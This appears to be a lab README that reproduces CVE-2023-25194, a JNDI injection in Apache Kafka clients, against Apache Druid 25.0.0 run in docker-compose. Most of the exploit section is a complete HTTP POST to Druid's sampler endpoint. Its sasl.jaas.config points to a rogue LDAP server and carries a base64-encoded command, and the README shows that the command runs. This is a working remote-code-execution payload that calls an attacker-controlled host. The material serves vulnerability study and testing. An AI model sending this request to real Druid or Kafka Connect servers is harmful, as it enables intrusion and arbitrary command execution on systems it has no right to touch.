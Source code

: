 # Apache Kafka Clients JNDI injection RCE (CVE-2023-25194)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Kafka is an open-source distributed event streaming platform that is used for real-time data streaming and processing. Kafka clients are a set of Java libraries that allow you to produce and consume messages from Apache Kafka.

In the version prior to 3.3.2, there is a JNDI injection issue in the Apache Kafka clients if an attacker is able to set the `sasl.jaas.config` property for any of the connector's Kafka clients to `com.sun.security.auth.module.JndiLoginModule`. It will allow the server to connect to the attacker's LDAP server and deserialize the LDAP response, which the attacker can use to execute java deserialization gadget chains on the Kafka connect server. Attacker can cause unrestricted deserialization of untrusted data (or) RCE vulnerability when there are gadgets in the classpath.

Because this issue exists in a Java library, we have to find a real world software that is using the kafka-clients.

This software is Apache Druid, which is depended on kafka-clients to connect to one of its datasources. This guide is demonstrates how to exploit CVE-2023-25194 in the Apache Druid server.

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## Vulnerable Environment

Execute following command to start a Apache Druid server 25.0.0 which is depended on kafka-clients 3.3.1:

```
docker-compose up -d
```

After server is started, you can see the home page of Apache Druid on `http://your-ip:8888`.

## Exploit

Firstly, use [JNDIExploit](https://github.com/vulhub/JNDIExploit) to start a rogue JNDI server:

![](1.png)

You will get some evil urls from this tool, modify it.

Paste the evil LDAP url into following request and send it:

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://roguo-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![](2.png)

As you can see, `id > /tmp/success` was executed successfully:

![](3.png)
